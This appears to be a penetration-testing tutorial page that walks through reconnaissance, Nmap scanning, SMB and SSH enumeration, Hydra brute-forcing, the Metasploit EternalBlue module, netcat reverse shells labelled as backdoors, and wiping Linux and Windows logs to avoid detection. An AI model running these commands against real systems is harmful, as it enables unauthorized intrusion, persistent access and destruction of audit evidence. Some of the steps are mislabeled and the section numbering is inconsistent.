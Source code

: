 ```yaml
---
hidden: true
---
```


# IP Address Exploitation

Penetration testing on **IP addresses** involves more than just automated scripts. It requires knowledge of network protocols, tools, and an understanding of the testing phases. If you're looking for quick results or shortcuts, stop reading now.

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

{% hint style="danger" %}
**Important**: Only conduct penetration testing on networks and IPs you own or have explicit permission to test. Unauthorized testing is illegal.
{% endhint %}

### 1. Setting Up Your Environment

To begin, ensure you have the right tools. **Kali Linux** is recommended for penetration testers as it comes with numerous utilities.

#### 1.1 Installing Tools

Ensure tools such as Nmap, Metasploit, Hydra, Netcat, and Enum4Linux are installed:

```
sudo apt install nmap metasploit-framework netcat hydra enum4linux
```

### 2. Reconnaissance: Footprinting

Footprinting involves gathering information about your target before actively scanning. This is a passive phase and should not leave a trace.

#### 2.1 Passive Recon

Start by collecting public information about the target, such as DNS records, WHOIS data, and using services like **Shodan**.

*   **Whois Lookup**:

    ```
    whois <target-IP>
    ```
*   **DNS Information**:

    ```
    nslookup <target-IP>
    ```
*   **Shodan**: Query for exposed devices.

    ```
    shodan host <target-IP>
    ```

### 3. Scanning: Port Scanning and Service Detection

Now that you have some information, start scanning for open ports and services.

#### 3.1 Port Scanning with Nmap

Use Nmap to scan for open ports:

```
nmap -sS -Pn -p- <target-IP>
```

This scan will check all ports and use a **SYN scan** (`-sS`), which is stealthy.

#### 3.2 Service Detection

Once ports are identified, scan for service versions:

```
nmap -sV <target-IP>
```

### 3. Enumeration: Extracting More Details

During this phase, gather deeper details about the services running on the target.

#### 4.1 SMB Enumeration

For SMB services (port 445), use **enum4linux** to enumerate users and shares:

```
enum4linux -a <target-IP>
```

#### 4.2 SSH Enumeration

For SSH (port 22), brute-force weak passwords using **Hydra**:

```
hydra -L users.txt -P passwords.txt ssh://<target-IP>
```

### 5. Exploitation: Gaining Access

After gathering enough information, attempt exploitation. This is where vulnerabilities are leveraged to gain access.

#### 5.1 Exploiting SMB with Metasploit

If the SMB version is vulnerable (e.g., EternalBlue), use **Metasploit**:

```
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOST <target-IP>
run
```

#### 5.2 Brute Forcing SSH

If SSH credentials were found, use them to log in:

```
ssh <user>@<target-IP>
```

Alternatively, use Netcat to open a reverse shell:

```
nc -lvnp 4444  # Listener
nc <target-IP> 4444 -e /bin/bash  # Target
```

### 6. Post-Exploitation: Maintaining Access

After gaining access, escalate privileges and maintain access.

#### 6.1 Privilege Escalation

On **Linux**, check sudo permissions:

```
sudo -l
```

#### 6.2 Creating a Backdoor

For persistent access, install a backdoor:

```
nc -lvnp 4444
nc <target-IP> 4444 -e /bin/bash
```

### 7. Covering Your Tracks

To avoid detection, clear logs and other traces of your activity.

#### 7.1 Log Removal

For **Linux**:

```
rm -rf /var/log/*
```

For **Windows**:

```
del /f /s /q C:\Windows\System32\winevt\Logs\*
```

### 8. Reporting

Once testing is complete, document your findings. A solid report includes:

* Vulnerabilities found and exploited.
* Steps taken to gain access.
* Recommendations for remediation.

Penetration testing is a structured process that involves various phases such as reconnaissance, scanning, enumeration, exploitation, and post-exploitation. It requires understanding both the tools and the processes. Always ensure you have permission to conduct tests on a network or IP address.\
